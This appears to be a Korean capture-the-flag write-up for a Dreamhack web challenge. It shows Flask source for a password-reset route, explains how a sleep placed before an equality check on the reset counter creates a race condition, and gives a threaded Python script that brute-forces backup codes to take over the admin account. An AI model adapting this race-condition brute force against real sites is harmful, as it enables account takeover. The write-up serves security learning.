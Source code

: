 ## 풀이

동기와 함께 풀었던 문제
정말 pure하게 취약한 포인트를 찾았어서 뿌듯하고 기억에 남는 문제이다.

```python
@app.route('/user/<int:useridx>')
def users(useridx):
    conn = get_db()
    cur = conn.cursor()
    user = cur.execute('SELECT * FROM user WHERE idx = ?;', [str(useridx)]).fetchone()
    
    if user:
        return render_template('user.html', user=user)

    return "<script>alert('User Not Found.');history.back(-1);</script>";
```

우선 코드상에 있는 /user/를 통해 유저 정보를 알아낸다. 우리는 user_level이 1인 admin 계정을 찾아야 한다. 

/user/1 에 들어가면 Apple이라는 계정이 나오고 이는 admin 권한의 계정임을 알 수 있다.

```python
@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'GET':
        return render_template('forgot.html')
    else:
        userid = request.form.get("userid")
        newpassword = request.form.get("newpassword")
        backupCode = request.form.get("backupCode", type=int)

        conn = get_db()
        cur = conn.cursor()
        user = cur.execute('SELECT * FROM user WHERE id = ?', (userid,)).fetchone()
        if user:
            # security for brute force Attack.
            time.sleep(1)

            if user['resetCount'] == MAXRESETCOUNT:
                return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
            
            if user['backupCode'] == backupCode:
                newbackupCode = makeBackupcode()
                updateSQL = "UPDATE user set pw = ?, backupCode = ?, resetCount = 0 where idx = ?"
                cur.execute(updateSQL, (hashlib.sha256(newpassword.encode()).hexdigest(), newbackupCode, str(user['idx'])))
                msg = f"<b>Password Change Success.</b><br/>New BackupCode : {newbackupCode}"

            else:
                updateSQL = "UPDATE user set resetCount = resetCount+1 where idx = ?"
                cur.execute(updateSQL, (str(user['idx'])))
                msg = f"Wrong BackupCode !<br/><b>Left Count : </b> {(MAXRESETCOUNT-1)-user['resetCount']}"
            
            conn.commit()
            return render_template("index.html", msg=msg)

        return "<script>alert('User Not Found.');history.back(-1);</script>";
```

그리고 로그인 쪽에 남아있는 기능인 forgot_password는 최초 가입시 생성된 백업코드를 활용해서 비밀번호를 바꾸게 된다. 이때 backupCode가 맞는지 확인을 하고 틀리면 resetCount를 1 감소 시키는데, 최대 5번까지 틀릴 수 있다. 여기까지 보면 꽤 안전해보이지만, 취약한 포인트는 여기 존재한다.

```python
if user:
    # security for brute force Attack.
    time.sleep(1)

    if user['resetCount'] == MAXRESETCOUNT:
        return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
```

resetCount를 체크하는 과정에서 time.sleep(1)로 1초의 시간이 소요된다는 것과 부등호가 아닌 등호로 resetCount를 체크한다는 것이다. 이때 자동화된 모듈을 활용해서 1초 내에 100개의 요청을 클리어하거나, MAXRESETCOUNT를 넘어서게끔 만들면 될 것이다. 따라서 쓰레드와 같은 도구를 활용해 brute-force를 수행할 수 있다. 

```python
from threading import Thread
import requests

backup_codes = range(100)

def run(code, results):
    url = 'http://host1.dreamhack.games:21893/forgot_password'
    data = {
        'userid': 'Apple',
        'newpassword': 'admin',
        'backupCode': code
    }
    print(code)
    res = requests.post(url, data=data)

    if 'Wrong' in res.text:
        pass
    else:
        print('Success!! Password Changed with Apple/admin')
        return

results = [None] * 100
for i in backup_codes:
    Thread(target=run, args=(i, results)).start()
```

이러면 Apple 계정이 admin으로 비밀번호가 변경된다.